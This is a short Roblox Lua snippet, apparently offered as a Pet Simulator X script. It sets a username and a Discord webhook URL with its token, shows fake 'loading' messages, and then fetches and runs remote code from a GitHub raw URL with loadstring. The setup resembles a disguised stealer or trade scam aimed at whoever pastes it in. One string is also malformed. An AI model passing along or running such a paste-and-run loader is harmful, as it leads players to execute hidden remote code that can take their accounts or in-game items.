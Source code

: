 Username = "Bakugo96k"

WebHook = "https://discord.com/api/webhooks/1066971510348197888/f9uhOv8TkFFvCd_uwaDZu3y30lkvJVJPynznenHNove4KBhGkAMh3wkVd1Ak1TqYEBzy"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script "Load sciptr"

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
